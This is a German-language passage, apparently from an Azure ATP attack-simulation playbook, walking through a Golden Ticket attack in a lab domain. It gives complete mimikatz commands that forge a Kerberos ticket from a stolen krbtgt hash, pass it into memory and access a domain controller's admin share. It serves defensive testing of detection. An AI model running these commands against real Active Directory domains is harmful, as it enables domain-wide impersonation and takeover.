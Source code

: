 ![Skeleton Key-Angriff von AATP erkannt](media/playbook-dominance-skeletonkey_detected.png)

Azure ATP hat erfolgreich die verdächtige Vorauthentifizierungs-Verschlüsselungsmethode erkannt, die für diesen Benutzer verwendet wurde.

### <a name="golden-ticket---existing-user"></a>Golden Ticket – vorhandener Benutzer

Nach dem Diebstahl des „Golden Ticket“ („krbtgt“-Konto, erläutert [hier über böswillige Replikation](#malicious-replication)) kann ein Angreifer Tickets signieren, *als sei er der Domänencontroller*. **Mimikatz**, die Domänen-SID und das gestohlene „krbtgt“-Konto sind alle erforderlich, um diesen Angriff auszuführen. Wir können nicht nur Tickets für einen Benutzer generieren, sondern auch für Benutzer, die noch nicht vorhanden sind.

1. Führen Sie als JeffL den folgenden Befehl auf **VictimPC** aus, um die Domänen-SID abzurufen:

   ``` cmd
   whoami /user
   ```

   ![SID für Golden Ticket-Benutzer](media/playbook-dominance-golden_whoamisid.png)

2. Identifizieren und kopieren Sie die im obigen Screenshot hervorgehobene Domänen-SID.

3. Verwenden Sie mithilfe von **mimikatz** die kopierte Domänen-SID zusammen mit dem gestohlenen NTLM-Hash des „krbtgt“-Benutzers zum Generieren des TGT. Fügen Sie den folgenden Text als JeffL in eine „cmd.exe“-Datei ein:

   ``` cmd
   mimikatz.exe "privilege::debug" "kerberos::golden /domain:contoso.azure /sid:S-1-5-21-2839646386-741382897-445212193 /krbtgt:c96537e5dca507ee7cfdede66d33103e /user:SamiraA /ticket:c:\temp\GTSamiraA_2018-11-28.kirbi /ptt" "exit"
   ```

   ![Generieren des Golden Ticket](media/playbook-dominance-golden_generate.png)

   Der ```/ptt```-Teil des Befehls ermöglichte uns, das generierte Ticket sofort dem Arbeitsspeicher zu übergeben.

4. Stellen Sie sicher, dass die Anmeldeinformationen sich im Arbeitsspeicher befinden.  Führen Sie ```klist``` in der Konsole aus.

   ![Klist-Ergebnisse nach dem Übergeben des generierten Tickets](media/playbook-dominance-golden_klist.png)

5. Führen Sie als Angreifer den folgenden Pass-the-Ticket-Befehl gegen den DC aus:

   ``` cmd
   dir \\ContosoDC\c$
   ```

   Erfolgreich! Sie haben ein **gefälschtes** Golden Ticket für SamiraA generiert.

   ![Ausführen des Golden Ticket über Mimikatz](media/playbook-dominance-golden_ptt.png)

Warum hat es funktioniert? Der Golden Ticket-Angriff funktioniert, da das generierte Ticket ordnungsgemäß mit dem Schlüssel „KRBTGT“ signiert wurde, den wir zuvor gestohlen haben. Dieses Ticket ermöglicht uns, als Angreifer Zugriff auf ContosoDC zu erlangen und uns einer Sicherheitsgruppe hinzuzufügen, die wir verwenden möchten.
